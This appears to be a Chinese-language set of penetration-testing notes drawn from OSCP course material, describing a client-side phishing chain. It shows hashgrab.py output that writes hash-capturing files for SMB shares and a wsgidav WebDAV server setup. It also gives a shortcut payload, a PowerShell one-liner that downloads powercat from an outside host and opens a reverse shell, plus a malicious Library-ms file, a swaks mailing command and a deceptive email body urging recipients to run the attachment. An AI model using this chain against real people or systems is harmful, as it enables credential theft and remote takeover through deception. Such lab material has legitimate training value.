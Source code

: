 >[!NOTE]
>本章內容來自於OSCP 2023教材 
# hashgrab.py
>[!WARNING]
>抓取人員點擊的小工具

[吉哈伯連結](https://raw.githubusercontent.com/dharanivarma/Pentesting-Tools/main/hashgrab.py)
```title:hashgrab.py
python /opt/hashgrab/hashgrab.py 192.168.45.207 test
```
``` title:output
┌──(kali㉿kali)-[~/Desktop/PG_PRATICE/nara]
└─$ sudo python /opt/hashgrab/hashgrab.py 192.168.45.207 test
[*] Generating hash grabbing files..
[*] Written @test.scf
[*] Written @test.url
[*] Written test.library-ms
[*] Written desktop.ini
[*] Written lnk_778.ico
[+] Done, upload files to smb share and capture hashes with smbserver.py/responder
```
# wsgidav
>[!WARNING]
>wsgidav是用來傳輸shortcut過去的，裡面要放一個shortcut
## 安裝
```
pip3 install wsgidav
```
- wsgidav 
``` shell
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/beyond/webdav/
```
- shortcuts 
>直接用windows的shortcut，裡面可以放下列指令
``` shell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.5:8000/powercat.ps1'); powercat -c 192.168.119.5 -p 4444 -e powershell"
```
- config.Library-ms
>這個東西要想辦法寄給受害方，受害方點擊就可以連˙進去wsgidav
```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.5</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```
- swaks 
>用於寄送信件
```
sudo swaks -t daniela@beyond.com -t marcus@beyond.com --from john@beyond.com --attach @config.Library-ms --server 192.168.50.242 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap
```
- body 
```
Hey!
I checked WEBSRV1 and discovered that the previously used staging script still exists in the Git logs. I'll remove it for security reasons.

On an unrelated note, please install the new security features on your workstation. For this, download the attached file, double-click on it, and execute the configuration shortcut within. Thanks!

John
```
